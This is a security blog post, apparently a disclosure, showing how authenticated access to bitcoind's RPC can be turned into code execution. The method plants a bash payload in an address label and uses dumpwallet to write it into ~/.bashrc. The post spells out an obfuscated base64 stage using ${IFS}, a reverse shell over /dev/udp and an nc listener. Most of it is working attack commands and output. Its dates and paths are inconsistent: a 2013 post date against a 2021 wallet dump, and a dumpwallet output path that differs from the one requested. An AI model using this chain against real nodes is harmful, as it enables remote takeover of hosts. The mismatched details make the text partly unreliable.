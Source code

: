 ```yaml
---
layout: post
title:  "Pwning Bitcoind RPC To RCE"
date:   2013-11-10 10:18:00
categories: Security
---
```


Exposing the bitcoind rpc has always been a bad idea, but let's make it worse! We discovered that the usage of bitcoind's `getnewaddress` and `dumpwallet` can be abused to gain remote code execution, essentially elevating our limited access from `bitcoind` to a full complete "SSH" shell allowing us to execute arbitrary commands. 

## Introduction
This potential security vulnerability has been reported to the bitcoin core team but there does not seem to be enough interest in patching this, so the least I can do is raise the awareness that the bitcoind rpc exposes dangerous functions.

The impact is severely limited because:
* attackers require authenticated access to `bitcoind´
* `bitcoind` only binds to localhost by default
* triggering code execution is not straightforward

This technique can mainly be used to perform lateral movements within an already compromised environment.

## Nearly arbitrary write access through dumpwallet
We can leverage the `dumpwallet` command to write a file to an absolute path.
This can be leveraged to write files into sensitive locations such as `~/.bashrc`
Other locations such as `~/.bash_profile` or `~/.bash-login` are also interesting, these have a higher chance of not having a file already but will only trigger when a new ssh login happens.

We can only write non-executable files, but this isn't really a constraint because the interesting locations mentioned above do not require the executable property. The shell will read the contents of the file into a variable and execute it.

Bash is an interesting target because it does not stop execution if a command failed. This is instrumental to skip over the "garbage" lines because we don't actually control the format of the file created by `dumpwallet`.

The label of an address created through `getnewaddress` serves as our entrypoint into our dumpwallet file, we can stuff bash commands in this field.

Labels barely do any filtering for useful characters:
```
"label": "~!@#$%^&*()-_=+[]\\{}|;':\",./<>?",
```

The final layout of the dumpfile looks like this (redacted a bit):
```
# Wallet dump created by Bitcoin v0.20.1
# * Created on 2021-01-05T18:59:14Z
# * Best block at time of backup was 0 (000000000019d6689c085ae165831e934ff763ae46a2a6c172b3f1b60a8ce26f),
#   mined on 2009-01-03T18:15:05Z

# extended private masterkey: REDACTED

L5REoWnddZLx315Bmh2fhHujTMQB5DBFREaia9osDfUaoiMtk6RA 2021-01-05T18:49:04Z reserve=1 # addr=bc1qqq5dsec72dv0g6nyxld0ykxtzau7pwau99dz5v hdkeypath=m/0'/0'/198'
L3p1RYmgarF1Ps6tdmLFon6iGKQMAZhLMH4HoV1eqvPkAF7Eqyxy 2021-01-05T18:49:04Z reserve=1 # addr=bc1q4e4vq855ljth9f3ykqvunr6xnc7aaaav6wpmgl hdkeypath=m/0'/0'/638'
KzHgJs6DSAnxab5tRD7jpDLoNUgtSyxPHbJS1ZW5dhJa5r9xG9Px 2021-01-05T18:49:04Z label=;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash; # addr=bc1q4ely2lu9du0mspersm9yvn2ttruv5z54aesnjv hdkeypath=m/0'/0'/2'
L1cE5swB5R8Bf9A2tN4yQH17fRDTm96YPdhw3YSdbdgDpUb7v8kA 2021-01-05T18:49:04Z reserve=1 # addr=bc1q469p9czc9kr74zelmx00pptfsqkuut9uedk4mj hdkeypath=m/0'/0'/405'

```

## Payload

The final payload that we'll use in this PoC looks like this:
```
;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;
```

### Stage 1
```
;(base64${IFS}-d${IFS}<<<${BASE64_ENCODED_STAGE_2_PAYLOAD})|bash;
```
The first stage of the payload decodes the stage 2 payload and executes it.
Mostly a convenience feature because labels will encoded the space character ` ` to `%20`.
Luckily we can use `${IFS}` as a substitution, which is the variable that bash uses for whitespace detection.

Our actual payload is base64 encoded, that way we don't need to deal with the space issue in the actual payload.

### Stage 2

Insecure shell to ip address 127.0.0.1 on port 4242
```
$ sh -i >& /dev/udp/127.0.0.1/4242 0>&1
```

Encoding it to base64
```
$ echo "sh -i >& /dev/udp/127.0.0.1/4242 0>&1" | base64
c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQo=
```

The attacker will be listening there, we can use the following command to do that:
```
$ nc -u -lvp 4242
```

## Attack

### Extract path of the user

```
getrpcinfo
{
  "active_commands": [
    {
      "method": "getrpcinfo",
      "duration": 20
    }
  ],
  "logpath": "/home/user/.bitcoin/debug.log"
}

```
Default log path can reveal this.
But this may not be as easy when a non default datadirectory is used.

### Create an address with our label as payload
```
getnewaddress ";(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;"
bc1qccznzj3k7y79jwqyttn8e2lhlwlyznrxqa65yk
```

### Dumping the wallet a file
Let's assume that `.bashrc` doesn't exist, for the sake of having an example that is easy to reproduce.
There are a few better locations as mentioned above that will also work quite well.
```
dumpwallet /home/user/.bashrc
{
  "filename": "/home/user/projects/BitcoindPwner/bitcoin-0.20.1/bin/test"
}
```

### Now we wait
A trap has been laid out, we now only require a bash shell to be spawned on the server which loads our malicious `.bashrc` which in turn trigger our malicious payload.
